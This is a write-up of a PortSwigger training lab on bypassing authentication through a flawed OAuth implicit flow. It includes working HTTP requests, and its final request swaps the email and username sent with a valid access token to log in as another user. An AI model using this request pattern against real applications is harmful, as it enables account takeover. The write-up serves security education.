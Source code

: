 # Lab: Authentication bypass via OAuth implicit flow

This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the client application makes it possible for an attacker to log in to other users' accounts without knowing their password.

To solve the lab, log in to Carlos's account. His email address is `carlos@carlos-montoya.net`.

You can log in with your own social media account using the following credentials: `wiener`:`peter`.

## Analysis

**1. Authorization request**
After click to my account page we are redirected to social login page. Here, the response contain client_id, redirect_uri, response_type, nonce and scope in the meta tag.

```html
<meta 
http-equiv=refresh 
content='3;
url=https://oauth-0a9f005b03d78364c0a24d0702e500b6.oauth-server.net/auth?client_id=oy765r4a67uufy1drra4k&
redirect_uri=https://0a5000c203ff837fc0354f7d00cf002c.web-security-academy.net/oauth-callback&response_type=token&
nonce=1132317618&
scope=openid profile email'
>
```

- client_id: Mandatory parameter containing the unique identifier of the client application. This value is generated when the client application registers with the OAuth service.
- redirect_uri: The URI to which the user's browser should be redirected when sending the authorization code to the client application. This is also known as the "callback URI" or "callback endpoint". Many OAuth attacks are based on exploiting flaws in the validation of this parameter
- response_type: Determines which kind of response the client application is expecting and, therefore, which flow it wants to initiate. For the authorization implicit grant type, the value should be token.
- scope: Used to specify which subset of the user's data the client application wants to access. Note that these may be custom scopes set by the OAuth provider or standardized scopes defined by the [OpenID Connect](https://portswigger.net/web-security/oauth/openid) specification.

**2. User login and consent**
Using the information above `GET /auth?client_id=oy765r4a67uufy1drra4k&redirect_uri=https://0a5000c203ff837fc0354f7d00cf002c.web-security-academy.net/oauth-callback&response_type=token&nonce=-1895431735&scope=openid%20profile%20email HTTP/1.1` to get form login with social account and consent to the requested permissions or not.

**3. Access token grant** 
The OAuth service will redirect the user's browser to the redirect_uri specified in the authorization request. However, it will send the access token and other token-specific data as a URL fragment.

As the access token is sent in a URL fragment, it is never sent directly to the client application. Instead, the client application must use a suitable script to extract the fragment and store it.

**4. API call** 
Once the client application has successfully extracted the access token from the URL fragment, it can use it to make API calls to the OAuth service's /me endpoint. Unlike in the authorization code flow, this also happens via the browser.

Request
```http
GET /me HTTP/1.1
Host: oauth-0a9f005b03d78364c0a24d0702e500b6.oauth-server.net
Authorization: Bearer epQ4mDQGLSZdOVL5xx7pVp7V9zPq7nOzu_sjjcjPdsd
```

Response
```json
{
    "sub":"wiener",
    "name":"Peter Wiener",
    "email":"wiener@hotdog.com",
    "email_verified":true
}
```

**5. Resource grant**
The resource server should verify that the token is valid and that it belongs to the current client application. If so, it will respond by sending the requested resource i.e. the user's data based on the scope associated with the access token.

```http
POST /authenticate HTTP/1.1
Host: 0a5000c203ff837fc0354f7d00cf002c.web-security-academy.net
Cookie: session=4642yYgoveXhldW8iDfwjCY48m45kTgo

{
    "email":"wiener@hotdog.com",
    "username":"wiener",
    "token":"epQ4mDQGLSZdOVL5xx7pVp7V9zPq7nOzu_sjjcjPdsd"
}
```

After post that request we already logged in successfully with wiener's social account.

## Exploit

The problem is resource server verify based on access token, so we keep token valid of wiener then modify email and username to carlos. By this the resource server has allowed us login with carlos's social account

```http
POST /authenticate HTTP/1.1
Host: 0a5000c203ff837fc0354f7d00cf002c.web-security-academy.net
Cookie: session=4642yYgoveXhldW8iDfwjCY48m45kTgo

{
    "email":"carlos@carlos-montoya.net",
    "username":"carlos",
    "token":"epQ4mDQGLSZdOVL5xx7pVp7V9zPq7nOzu_sjjcjPdsd"
}
```

Post that request then show response in browser and that's it we solved it